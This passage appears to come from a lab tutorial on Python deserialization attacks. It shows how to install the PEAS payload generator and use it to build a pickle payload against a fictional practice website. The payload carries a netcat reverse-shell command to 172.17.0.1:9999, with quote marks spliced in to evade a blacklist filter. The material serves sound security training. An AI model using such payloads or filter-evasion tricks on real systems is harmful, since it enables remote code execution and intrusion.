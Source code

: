 ```shell

```

For further information, I recommend checking out the following links:

- [https://net-square.com/yaml-deserialization-attack-in-python.html](https://net-square.com/yaml-deserialization-attack-in-python.html)
- [https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)

* * *

## PEAS

[PEAS](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) is a multi-tool which can generate Python deserialization payloads for `Pickle`, `JSONPickle`, `PyYAML` and `ruamel.yaml`. I will demonstrate its use against `HTBook GmbH & Co KG's` website from the previous sections.

Installation is straightforward; just clone the repository from Github...

```shell
git clone https://github.com/j0lt-github/python-deserialization-attack-payload-generator.git

Cloning into 'python-deserialization-attack-payload-generator'...
remote: Enumerating objects: 97, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 97 (delta 0), reused 0 (delta 0), pack-reused 94
Receiving objects: 100% (97/97), 35.46 KiB | 2.36 MiB/s, done.
Resolving deltas: 100% (49/49), done.

```

... and install the Python requirements with pip:

```shell
cd python-deserialization-attack-payload-generator/
pip3 install -r requirements.txt

Defaulting to user installation because normal site-packages is not writeable
Collecting jsonpickle==1.2
  Downloading jsonpickle-1.2-py2.py3-none-any.whl (32 kB)
Collecting PyYAML==5.1.2
...

```

We can generate a payload for `Pickle` using the command we used in the previous section to bypass the blacklist filter in place like so:

```shell
python3 peas.py

Enter RCE command :n''c -nv 172.17.0.1 9999 -e /bin/s''h
Enter operating system of target [linux/windows] . Default is linux :linux
Want to base64 encode payload ? [N/y] :
Enter File location and name to save :/tmp/payload
Select Module (Pickle, PyYAML, jsonpickle, ruamel.yaml, All) :pickle
Done Saving file !!!!

```
